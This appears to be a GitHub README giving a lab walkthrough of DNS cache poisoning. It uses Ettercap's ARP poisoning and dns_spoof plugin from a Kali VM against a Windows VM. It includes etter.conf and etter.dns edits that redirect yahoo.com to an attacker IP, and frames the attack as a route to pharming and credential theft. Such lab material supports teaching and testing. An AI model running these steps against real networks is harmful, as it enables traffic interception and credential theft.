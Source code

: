 # dns-cache-poisoning

DNS cache poisoning is a vulnerability used by the attackers to replace the DNS response with forged DNS response that direct the request to attacker’s website. Usually this is used for pharming user are unknowing made to download malicious code or provide credentials which is then an accessed by attackers. The DNS server doesn’t verify the cache. Therefore, the forged response remains in the DNS until the TTL is expired. The DNS cache poisoning will not affect the real site corresponding to the IP address but the response from that DNS will lead user to rogue website


## REQUIREMENTS

1. virtual box
2. Two virtual machines 

      . we are using kali machine for attacking and windows machine as victim
      
3. Ettercap Application
4. Apache Server
5. IpTables

## How to install requirements

1. Installing virtual box

     . visit https://www.virtualbox.org/wiki/Downloads to download and install according to the operating system
        
        
2. Download and install kali machine 64 bit on virtual box using the link provided

     . https://kali.download/virtual-images/kali-2022.1/kali-linux-2022.1-virtualbox-amd64.ova
     
      follows instruction in the site to install kali machine on virtual box
      https://itsfoss.com/install-kali-linux-virtualbox/
      
      
3. Download and install windows 10 machine on virtual box using the link provided

      https://www.groovypost.com/howto/windows-10-install-virtualbox/
                    
4. Installing ettercap on kali
     use below command to install Ettercap application
     
        sudo apt-get install ettercap
        
5. installing apache server
     use following command to install apache server on kali
        
        sudo apt-get install apache2
                
5. install Iptable
     use following command to install iptables on kali
     
        sudo apt-get install iptables
       
# Getting Ready


### Configuring
      
                 
##### Edit Ettercap configuration file
                 
             

We now need to edit the Ettercap configuration file since it is our application of choice for today.
Let's navigate to /etc/ettercap/etter.conf and open the file with a text editor like leafpad and edit the file. 
We can use following command for that.

        leafpad /etc/ettercap/etter.conf

So now we want to edit the uid and gid values at the top to make them say 0 so go ahead and do that.


       ############################################################################

        [privs]
        ec_uid = 0               # nobody is the default
        ec_gid = 0               # nobody is the default

        [mitm]
        arp_storm_delay = 10          # milliseconds
        arp_poison_smart = 0          # boolean

Now scroll down until you find the heading that says Linux and under that remove both the # signs for the sections below where it says "Linux".



        #---------------
        #     Linux 
        #---------------

           redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

        # pendant for IPv6 - Note that you need iptables v1.4.16 or newer to use IPv6 redirect
           redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

##### Edit Ettercap.dns file

  Edit the domain name to spoof and  edit the IP address to attackers IP address and save the file

        #                                                                          #
        # Sample hosts file for dns_spoof plugin                                   #
        #                                                                          #
        # the format is (for A query):                                             #
         *yahoo.com 		A	 172.20.10.4
         www.yahoo.com 		A	 172.20.10.4
         *.yahoo.com		A	 172.20.10.4	
        #
        #   *.foo.com          A 168.44.55.66 [optional TTL]                       #
        #      
        
##### Run ettercap application

   use folowing command to run Ettercap application from terminal
   
        ettercap -G
        
 1. choose primary interface and click accept on top right corner
 2. click on threen dots on top right to select options
        select Hosts --> Scan for Hosts     
        this will scan for the available devices connected to the network and save it to Hosts List
 3. click on threen dots on top right to select options
        select Hosts --> Hosts List
        it will list the hosts in network found on previous scanning step
 4. Select the victim's IP address and add it to target1 by clicking on "Add to Target1"
 5. select the DNS IP address and add it to target2 by clicking on "Add to Target2"
 6. now Click on Ettercap Menu and select Plugins --> Manage Plugins
        select dns_spoof. now right click and activate plugin
 7. click on man in the MITM Menu on top right corner near Ettercap Menu and select ARP Poisoning. click OK 


#### testing

All set now try accessng the website from victim's Machine.
it'll be redirected to the ip address specified in the etter.dns file

we can use the chk_poison to validate the poisoning
